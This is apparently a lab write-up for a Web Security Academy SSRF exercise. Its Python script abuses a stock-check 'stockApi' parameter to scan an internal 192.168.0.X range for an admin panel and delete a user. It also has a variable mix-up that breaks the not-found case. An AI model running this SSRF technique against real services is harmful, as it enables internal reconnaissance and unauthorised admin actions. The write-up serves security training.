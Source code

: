 Vulnerable feature - stock check functionality

Goal - Use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

Analysis:

* application running on: http://192.168.0.190:8080/admin
* delete carlos: http://192.168.0.190:8080/admin/delete?username=carlos

```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def check_admin_hostname(url):
    check_stock_path = "/product/stock"
    admin_hostname = ''
    for i in range(1,256):
        hostname = 'http://192.168.0.%s:8080/admin' %i
        params = {'stockApi': hostname}
        r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)
        if r.status_code == 200:
            admin_ip_address = '192.168.0.%s' %i
            break
    
    if admin_ip_address == '':
        print("(-) Could not find admin hostname.")
    return admin_ip_address

def delete_user(url, admin_ip_address):
    delete_user_url_ssrf_payload = 'http://%s:8080/admin/delete?username=carlos' % admin_ip_address
    check_stock_path = '/product/stock'
    params = {'stockApi': delete_user_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params, verify=False, proxies=proxies)

    # Check if user was deleted
    check_admin_url_ssrf_payload = 'http://%s:8080/admin' % admin_ip_address
    params2 = {'stockApi': check_admin_url_ssrf_payload}
    r = requests.post(url + check_stock_path, data=params2, verify=False, proxies=proxies)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user")
    else:
        print("(-) Exploit was unsuccessful.")


def main():
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])

    url = sys.argv[1]
    print("(+) Finding admin hostname...")
    admin_ip_address = check_admin_hostname(url)
    print ("(+) Found the admin ip address: %s" % admin_ip_address)
    print("(+) Deleting Carlos user...")
    delete_user(url, admin_ip_address)

if __name__ == "__main__":
    main()
```
RUN:
```bash
python3 ssrf-lab-02.py 'https://ac0b1f8d1ff73e428074793800860063.web-security-academy.net'
```
END!